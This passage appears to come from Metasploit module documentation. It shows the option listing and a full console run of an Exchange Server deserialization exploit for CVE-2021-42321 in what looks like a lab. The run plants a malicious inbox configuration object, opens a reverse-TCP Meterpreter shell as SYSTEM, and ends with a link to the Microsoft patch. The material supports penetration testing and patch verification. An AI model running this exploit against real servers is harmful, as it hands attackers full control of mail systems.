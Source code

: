 ```
   RHOSTS        192.168.159.42   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.7 is vulnerable to CVE-2021-42321
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAAACmbL
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[!] Was not able to successfully delete the existing user configuration on the Inbox folder!
[!] Sometimes this may occur when there is not an existing config applied to the Inbox folder (default 2016 installs have this issue)!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:60610) at 2022-08-16 15:56:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 4
Meterpreter     : x86/windows
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b